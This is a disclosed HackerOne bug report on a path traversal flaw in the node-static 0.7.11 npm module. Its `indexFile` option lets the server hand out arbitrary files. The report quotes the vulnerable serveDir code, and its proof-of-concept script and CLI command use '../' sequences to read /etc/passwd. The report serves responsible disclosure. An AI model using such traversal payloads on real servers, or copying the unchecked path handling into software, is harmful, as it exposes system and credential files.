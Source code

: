 # `indexFile` option passed as an argument to node-server can lead to arbitrary file read

## Report Details
- **Report ID**: 677955
- **URL**: https://hackerone.com/reports/677955
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-08-20T22:16:11.091Z
- **Disclosed**: 2019-12-04T19:42:26.136Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

I would like to report Path Traversal vulnerability in `indexFile` parameter passed as an option to`node-server`.
This vulnerability affects both CLI `--indexFile` and `options.indexFile` passed as an argument to `Server.prototype.serveDir` function in `node-static.js`

# Module

**module name:** node-static
**version:** 0.7.11
**npm page:** `https://www.npmjs.com/package/node-static`

## Module Description

a simple, rfc 2616 compliant file streaming module for node

node-static understands and supports conditional GET and HEAD requests. node-static was inspired by some of the other static-file serving modules out there, such as node-paperboy and antinode.

## Module Stats

**~38.000 downloads/week**
**>150.000 downloads/month**

# Vulnerability

`node-static` allows to run static HTTP server with several options available. One of those options is `indexFile`, which allows to point to a specific file served as direcory index when user opens default url where server runs.

Because `node-static` does not restrict what file and from which location can be used as directory index, any of the files available on the machine where `node-static` is running can be used.

If `indexFile` option can be somehow controlled by malicious user, this can lead to arbitrary file read.


## Vulnerability Description

Vulnerability exists, because `indexFile` argument passed as one of the options to `Server.prototype.serveDir` function is not checked against Path Traversal patterns and allows to inject any path. When server is running, HTTP request to server root causes content of the file passed in `indexFile` is returned.

This works both for server run as standalone Node.js application and when server is run from CLI.

Here's vulnerable fragment of the code:

```javascript
// node-static/lib/node-static.js; lines from 52:

Server.prototype.serveDir = function (pathname, req, res, finish) {
    var htmlIndex = path.join(pathname, this.options.indexFile),   //// <-- this.options.indexFile passed "as is"
        that = this;

    fs.stat(htmlIndex, function (e, stat) {
        if (!e) {
            var status = 200;
            var headers = {};
            var originalPathname = decodeURI(url.parse(req.url).pathname);
            if (originalPathname.length && originalPathname.charAt(originalPathname.length - 1) !== '/') {
                return finish(301, { 'Location': originalPathname + '/' });
            } else {
                that.respond(null, status, headers, [htmlIndex], stat, req, res, finish);
            }
        } else {
            // Stream a directory of files as a single file.
            fs.readFile(path.join(pathname, 'index.json'), function (e, contents) {
                if (e) { return finish(404, {}) }
                var index = JSON.parse(contents);
                streamFiles(index.files);
            });
        }
    });
    function streamFiles(files) {
        util.mstat(pathname, files, function (e, stat) {
            if (e) { return finish(404, {}) }
            that.respond(pathname, 200, {}, files, stat, req, res, finish);
        });
    }
};

```

Here's sample Node.js application using `node-static` as HTTP server, with `indexFile` option set to arbitrary file:

```javascript
'use strict'

const s = require('node-static');

const options = {
    indexFile: '../../../../../../../etc/passwd'
};

const file = new s.Server('./', options);

require('http').createServer(function (request, response) {
    request.addListener('end', function () {
        //
        // Serve files!
        //
        file.serve(request, response);
    }).resume();
}).listen(8080);
```

When it's run and `http://127.0.0.1:8080` ur is accessed in the browser, file is being downloaded:

{F560591}

The content of the downloaded file:

{F560592}


We can get the same result when `node-static` server is run from CLI:

{F560593}


This time, server was created with following command:

```
$ ./node_modules/node-static/bin/cli.js --indexFile ../../../../../../etc/passwd
```



## Steps To Reproduce:

- install `node-static` with `npm i node-static` command
- in the folder with `./node_modules`, run following command (on Linux or macOS):

```
$ ./node_modules/node-static/bin/cli.js --indexFile ../../../../../../etc/passwd
```

- ensure you put enough `../` sequences to reach root folder (`/`) on your machine, depending on how deep your `node_modules` folder is located
- with browser of your choice, navigate to `http://127.0.0.1:8080`. Browser should start downloading `/etc/passwd` file.



## Supporting Material/References:

This vulnerability was found and verified with following configuration:

- macOS 10.14.6
- Node 10.16.0
- npm 6.9.0

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Stay Safe,

bl4de

## Impact

Arbitrary File Read

## Attachments
- 2.png
- 3.png
- 1.png
